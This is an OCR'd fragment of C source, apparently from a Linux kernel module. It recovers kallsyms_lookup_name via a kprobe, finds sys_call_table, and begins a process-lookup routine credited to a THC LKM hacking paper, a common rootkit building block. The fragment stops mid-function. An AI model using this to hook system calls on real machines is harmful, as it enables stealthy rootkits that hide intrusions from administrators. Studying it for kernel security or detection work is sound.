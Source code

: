 ```c

/* kprobe:
 * Acc. to: https://ish-ar.io/kprobes-in-a-nutshell/
 * 
 * Kprobes enables you to dynamically break into any kernel routine 
 * and collect debugging and performance information non-disruptively.
 *
 * Basically,we would use it as an alternative way to create a custom kallsyms_lookup_name function which can actually be exported to kernel (>5.7) 
 */ 
#include <linux/kprobes.h>

/*
 * link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/kprobes.h#L75
 *
 * struct kprobe {
 *      ...
 *
 *      // Allow user to indicate symbol name of the probe point
 *      const char *symbol_name;
 *      ...
 *      }
 */

 static struct kprobe kp = {
		.symbol_name = "kallsyms_lookup_name"
  };

 /* For storing address of sys_call_table */

unsigned long *get_syscall_table(void)
	{
		unsigned long *syscall_table;

	      //Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
      
	      /* // Lookup the address for a symbol. Returns 0 if not found.
	      * unsigned long kallsyms_lookup_name(const char *name);
	      * 
	      */
	      typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
      
	      kallsyms_lookup_name_t kallsyms_lookup_name;
	      register_kprobe(&kp);
	      kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
	      unregister_kprobe(&kp);

	      syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
	      return syscall_table;
	}

	/* Technique taken from: https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#II.5. */

	struct task_struct *find_task(pid_t pid)
	{
		struct task_struct *target_process = current;

		/* link: https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601
	      	* for loop macro
      		* #define for_each_process(p) \
		* for (p = &init_task ; (p = next_task(p)) != &init_task ; )
```